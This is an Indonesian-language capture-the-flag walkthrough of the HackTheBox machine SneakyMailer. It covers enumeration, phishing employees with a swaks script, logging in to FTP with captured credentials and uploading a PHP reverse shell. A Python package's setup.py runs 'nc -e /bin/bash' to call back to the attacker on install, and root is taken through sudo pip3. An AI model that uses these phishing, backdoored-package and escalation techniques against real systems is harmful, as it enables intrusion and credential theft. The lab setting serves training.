








# SneakyMailer (Linux)



HackTheBox SneakyMailer dengan operating system Linux, sepertinya box ini akan sama menyenangkannya dengan Sniper (Windows) karena memiliki tingkat real life yang sangat tinggi.

### Enumeration

Memulai proses port enumeration dengan menggunakan nmap

```
Nmap scan report for 10.10.10.197
Host is up (0.037s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 57:c9:00:35:36:56:e6:6f:f6:de:86:40:b2:ee:3e:fd (RSA)
|   256 d8:21:23:28:1d:b8:30:46:e2:67:2d:59:65:f0:0a:05 (ECDSA)
|_  256 5e:4f:23:4e:d4:90:8e:e9:5e:89:74:b3:19:0c:fc:1a (ED25519)
25/tcp   open  smtp     Postfix smtpd
|_smtp-commands: debian, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
80/tcp   open  http     nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://sneakycorp.htb
143/tcp  open  imap     Courier Imapd (released 2018)
|_imap-capabilities: IDLE NAMESPACE ACL SORT STARTTLS CHILDREN QUOTA OK THREAD=REFERENCES IMAP4rev1 completed THREAD=ORDEREDSUBJECT ENABLE CAPABILITY UTF8=ACCEPTA0001 ACL2=UNION UIDPLUS
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-05-14T17:14:21
|_Not valid after:  2021-05-14T17:14:21
|_ssl-date: TLS randomness does not represent time
993/tcp  open  ssl/imap Courier Imapd (released 2018)
|_imap-capabilities: IDLE NAMESPACE ACL SORT CHILDREN QUOTA OK THREAD=REFERENCES completed IMAP4rev1 THREAD=ORDEREDSUBJECT CAPABILITY ENABLE UTF8=ACCEPTA0001 UIDPLUS ACL2=UNION AUTH=PLAIN
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-05-14T17:14:21
|_Not valid after:  2021-05-14T17:14:21
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http     nginx 1.14.2
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to nginx!
Service Info: Host:  debian; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.79 seconds
```

Kita bisa menemukan beberapa port menarik yang terbuka seperti FTP, SSH, SMTP, HTTP, IMAP. Menurut namanya kita sepertinya akan berurusan dengan exploitasi yang berdasarkan mailing service seperti SMTP dan IMAP.



Tidak ada hal yang menarik, dan ternyata setelah melakukan subdomain bruteforcing menggunakan wfuzz kita menemukan subdomain "dev"



Pada dev.sneakycorp.htb/team.php kita menemukan list dari employee yang bekerja di sneakycorp. Jadi penulis mengambil semua namanya tadi dan dimasukan kedalam sebuah text file untuk dijadikan wordlist. Dengan sedikit sublime dan regex magic, penulis mendapatkan list dari email yang digunakan para employee

```
airisatou@sneakymailer.htb
angelicaramos@sneakymailer.htb
ashtoncox@sneakymailer.htb
bradleygreer@sneakymailer.htb
brendenwagner@sneakymailer.htb
briellewilliamson@sneakymailer.htb
brunonash@sneakymailer.htb
caesarvance@sneakymailer.htb
carastevens@sneakymailer.htb
cedrickelly@sneakymailer.htb
chardemarshall@sneakymailer.htb
colleenhurst@sneakymailer.htb
dairios@sneakymailer.htb
donnasnider@sneakymailer.htb
doriswilder@sneakymailer.htb
finncamacho@sneakymailer.htb
fionagreen@sneakymailer.htb
garrettwinters@sneakymailer.htb
gavincortez@sneakymailer.htb
gavinjoyce@sneakymailer.htb
glorialittle@sneakymailer.htb
haleykennedy@sneakymailer.htb
hermionebutler@sneakymailer.htb
herrodchandler@sneakymailer.htb
hopefuentes@sneakymailer.htb
howardhatfield@sneakymailer.htb
jacksonbradshaw@sneakymailer.htb
jenagaines@sneakymailer.htb
jenettecaldwell@sneakymailer.htb
jenniferacosta@sneakymailer.htb
jenniferchang@sneakymailer.htb
jonasalexander@sneakymailer.htb
laelgreer@sneakymailer.htb
martenamccray@sneakymailer.htb
michaelsilva@sneakymailer.htb
michellehouse@sneakymailer.htb
olivialiang@sneakymailer.htb
paulbyrd@sneakymailer.htb
prescottbartlett@sneakymailer.htb
quinnflynn@sneakymailer.htb
rhonadavidson@sneakymailer.htb
sakurayamamoto@sneakymailer.htb
sergebaldwin@sneakymailer.htb
shaddecker@sneakymailer.htb
shouitou@sneakymailer.htb
sonyafrost@sneakymailer.htb
sukiburks@sneakymailer.htb
sulcud@sneakymailer.htb
tatyanafitzpatrick@sneakymailer.htb
thorwalton@sneakymailer.htb
tigernixon@sneakymailer.htb
timothymooney@sneakymailer.htb
unitybutler@sneakymailer.htb
vivianharrell@sneakymailer.htb
yuriberry@sneakymailer.htb
zenaidafrank@sneakymailer.htb
zoritaserrano@sneakymailer.htb
```

### User

Untuk mengecek email mana yang valid kita akan menggunakan "Swiss Army Knife" untuk SMTP Protocol, sebuah tool mirip dengan netcat yang bernama swaks

Kita akan melakukan "phising", phising yang dimaksud ketika bermain di HTB adalah kita mengirimkan URL yang akan di klik oleh active user nya untuk mendapatkan informasi lebih tentang target kita.

- Step 1 , membuka netcat listener

- Step 2 , membuat python script untuk mengotomatisasi pengiriman email menggunakan swaks

- Step 3 , tunggu request yang masuk (berhasil phising)

Script yang dibuat penulis adalah sebagai berikut

```
import os

emails = []

with open("team", "r") as f:
	emails = f.readlines()

for email in emails:
	os.system("swaks --from angelicaramos@sneakymailer.htb --body 'http://10.10.14.2:8000' --to "+email.strip())
```


```
paulbyrd@sneakymailer.htb
^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```

Kita akan menggunakan evolution untuk mengecek isi dari email di server IMAP dengan credentials yang sudah kita dapatkan





```
developer
m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
```

Ternyata developer bisa login di ftp, kita bisa upload shell.php kedalam dan mendapatkan reverse shell.

Penulis akan menggunakan script php dari pentestmonkey

```
root@kali:~/Documents/htb/sneakymailer# ftp 10.10.10.197
Connected to 10.10.10.197.
220 (vsFTPd 3.0.3)
Name (10.10.10.197:root): developer
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x    9 0        1001         4096 Sep 28 04:43 dev
226 Directory send OK.
ftp> cd dev
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 May 26 19:52 css
drwxr-xr-x    2 0        0            4096 May 26 19:52 img
-rwxr-xr-x    1 0        0           13742 Jun 23 09:44 index.php
drwxr-xr-x    3 0        0            4096 May 26 19:52 js
drwxr-xr-x    2 0        0            4096 May 26 19:52 pypi
drwxr-xr-x    4 0        0            4096 May 26 19:52 scss
-rwxr-xr-x    1 0        0           26523 May 26 20:58 team.php
d-wxrw-rw-    2 1001     1001         4096 Sep 28 04:24 test
drwxr-xr-x    8 0        0            4096 May 26 19:52 vendor
226 Directory send OK.
ftp> put shell.php 
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.00 secs (116.3906 MB/s)
```



Kita mendapatkan shell sebagai www-data

Kita bisa su sebagai developer, setelah menjalankan LinEnum.sh kita bisa menemukan file .htpasswd untuk user pypi dan juga 1 virtual host lagi di subdomain pypi.sneakycorp.htb

```
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```

Setelah di crack dengna johntheripper kita bisa mendapatkan password pypi

```
pypi:soufianeelhaoui
```

Mengingat isi dari email yang tadi kita sekarang akan membuat package python yang akan di "tes" oleh user low.

```
https://packaging.python.org/guides/distributing-packages-using-setuptools/

https://pypi.org/project/pypiserver/#upload-with-setuptools

https://packaging.python.org/tutorials/packaging-projects/
```

Sample code untuk building python package dapat ditemukan diatas

```
[distutils]
index-servers = local

[local]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui
```

```
import setuptools
import os

if os.getuid() == 1000:
        os.system('nc -e /bin/bash 10.10.14.9 2345')


setuptools.setup(
        name='sample',
        version='1.2.0',
        description='A sample Python project',
        long_description="long_description",
        long_description_content_type='text/x-rst',
        url='https://github.com/pypa/sampleproject',
        author='A. Random Developer',
        author_email='author@example.com',
        license='MIT',
        packages=setuptools.find_packages(),
        install_requires=['peppercorn'],
)
```



Kita mendapatkan shell sebagai low dan user.txt

### Root

```
low@sneakymailer:~$ sudo -l
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3
```

Dengan referensi GTFOBins kita bisa mendapat root

```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

# Rooted !